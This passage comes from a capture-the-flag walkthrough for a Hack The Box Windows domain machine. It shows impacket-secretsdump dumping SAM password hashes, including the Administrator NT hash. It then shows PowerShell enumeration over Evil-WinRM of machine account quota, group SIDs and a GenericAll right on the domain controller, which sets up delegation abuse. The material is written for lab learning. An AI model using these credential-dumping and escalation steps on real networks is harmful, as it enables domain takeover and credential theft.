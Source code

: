 ```sh
┌──(root㉿kali)-[~]
└─# impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

## Root+1

For extra points let's look at how we could have got this done without Bloodhound by using PowerShell on the box:

First look for computers in the Domain:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADComputer -Filter * -Properties * | Select -Property Name,DNSHostName,Enabled,LastLogonDate
Name       DNSHostName            Enabled LastLogonDate
----       -----------            ------- -------------
DC         dc.support.htb            True 8/8/2022 7:43:48 AM
MANAGEMENT Management.support.htb    True 7/21/2022 6:19:20 AM
```

Check the Domain still has the default policy of allowing users to add up to 10 machines:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADObject ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
DistinguishedName         : DC=support,DC=htb
ms-DS-MachineAccountQuota : 10
Name                      : support
ObjectClass               : domainDNS
ObjectGUID                : 553cd9a3-86c4-4d64-9e85-5146a98c868e
```

Find the SID of the security group we found the support user was a member of:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> get-adgroup "Shared Support Accounts" | select SID

SID
---
S-1-5-21-1677581083-3380853377-188903654-1103
```

Confirm the same SID from above has excessive rights on the Domain Controller object:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObjectACL "dc.support.htb" | ?{$_.SecurityIdentifier -match S-1-5-21-1677581083-3380853377-188903654-1103}
ObjectDN              : CN=DC,OU=Domain Controllers,DC=support,DC=htb
ObjectSID             : S-1-5-21-1677581083-3380853377-188903654-1000
ActiveDirectoryRights : GenericAll
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983551
SecurityIdentifier    : S-1-5-21-1677581083-3380853377-188903654-1103
AceType               : AccessAllowed
AceFlags              : ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
```